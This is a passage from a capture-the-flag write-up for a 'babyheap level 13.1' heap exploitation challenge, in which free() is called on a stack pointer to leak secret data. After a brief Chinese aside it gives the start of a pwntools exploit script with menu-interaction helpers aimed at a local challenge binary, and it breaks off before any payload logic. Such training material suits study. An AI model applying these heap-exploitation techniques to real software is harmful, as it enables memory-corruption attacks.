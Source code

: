 > Leverage calling free() on a stack pointer to read secret data.

## Write-up

参见 [Level 13.0](#level-130)。

~_有时候我真的觉得自己在增加碳排放，但是我不想删了全改了，先将就沿袭一下传统吧，下次一定修改风格，下次一定（_~

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level13.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def send_flag(secret):
    target.sendlineafter(b": ", b"send_flag")
    target.sendlineafter(b"Secret: ", str(secret).encode())


def stack_free():
    target.sendlineafter(b": ", b"stack_free")


def stack_scanf(data):
    target.sendlineafter(b": ", b"stack_scanf")
```